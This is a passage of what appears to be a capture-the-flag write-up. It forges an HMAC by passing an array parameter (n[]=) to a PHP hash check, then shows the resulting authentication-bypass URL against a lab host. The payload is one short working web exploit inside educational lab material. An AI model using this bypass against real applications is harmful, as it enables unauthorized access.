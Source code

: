 ```
# lets use "dking"
hash_hmac('sha256', 'dking', false)

# run on cyberchef.
```

<figure><img src=".gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# result is:
882f9b031450280f50303d643857a3dec3bc9b45efd6587413569542c0e317ad
```
{% endcode %}

#### Our payload now is:&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://pwd.harder.local/index.php?n[]=&host=dking&h=882f9b031450280f50303d643857a3dec3bc9b45efd6587413569542c0e317ad
```
{% endcode %}

And we get this output:

<figure><img src=".gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>
